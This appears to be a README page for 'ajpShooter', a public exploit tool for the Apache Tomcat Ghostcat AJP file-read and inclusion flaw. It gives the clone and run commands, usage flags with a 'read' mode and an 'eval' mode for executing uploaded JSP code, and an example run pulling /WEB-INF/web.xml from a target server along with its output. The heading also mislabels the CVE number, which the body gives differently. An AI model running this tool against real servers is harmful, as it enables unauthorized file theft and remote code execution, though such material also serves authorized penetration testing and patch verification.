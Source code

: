 # CVE-2020-10487

CVE-2020-10487 - Apache Ghostcat

CVE-2020-1938 is a file read/inclusion vulnerability in the AJP connector in Apache Tomcat. This is enabled by default with a default configuration port of 8009. A remote, unauthenticated attacker could exploit this vulnerability to read web application files from a vulnerable server. In instances where the vulnerable server allows file uploads, an attacker could upload malicious JavaServer Pages (JSP) code within a variety of file types and trigger this vulnerability to gain remote code execution (RCE).

## Installation

```bash
git clone https://github.com/00theway/Ghostcat-CNVD-2020-10487.git
```

## Usage

```bash
python3 ajpShooter.py
```

## Flags

```bash

       _    _         __ _                 _
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __
     //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|
         |__/|_|
                                                00theway,just for test

usage: ajpShooter.py [-h] [--ajp-ip AJP_IP] [-H HEADER] [-X {GET,POST,HEAD,OPTIONS,PROPFIND}] [-d DATA]
                     [-o OUT_FILE] [--debug]
                     url ajp_port target_file {read,eval}

positional arguments:
  url                   target site's context root url like http://www.example.com/demo/
  ajp_port              ajp port
  target_file           target file to read or eval like /WEB-INF/web.xml,/image/evil.jpg
  {read,eval}           read or eval file

optional arguments:
  -h, --help            show this help message and exit
  --ajp-ip AJP_IP       ajp server ip,default value will parse from from url
  -H HEADER, --header HEADER
                        add a header
  -X {GET,POST,HEAD,OPTIONS,PROPFIND}
                        Sets the method (default: GET).
  -d DATA, --data DATA  The data to POST
  -o OUT_FILE, --out-file OUT_FILE
                        write response to file
  --debug
```

## Examples

```bash
$ python3 ajpShooter.py http://172.26.82.122:8080/ 8009 /WEB-INF/web.xml read

       _    _         __ _                 _
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __
     //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|
         |__/|_|
                                                00theway,just for test


[<] 200 200
[<] Accept-Ranges: bytes
[<] ETag: W/"1257-1475781398000"
[<] Last-Modified: Thu, 06 Oct 2016 19:16:38 GMT
[<] Content-Type: application/xml
[<] Content-Length: 1257

<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_3_1.xsd"
  version="3.1"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>
```

## References

- [Github.com](https://github.com/00theway/Ghostcat-CNVD-2020-10487)
- [Medium.com - Hunting and exploiting Apache GhostCat](https://medium.com/@apkash8/hunting-and-exploiting-apache-ghostcat-b7446ef83e74)
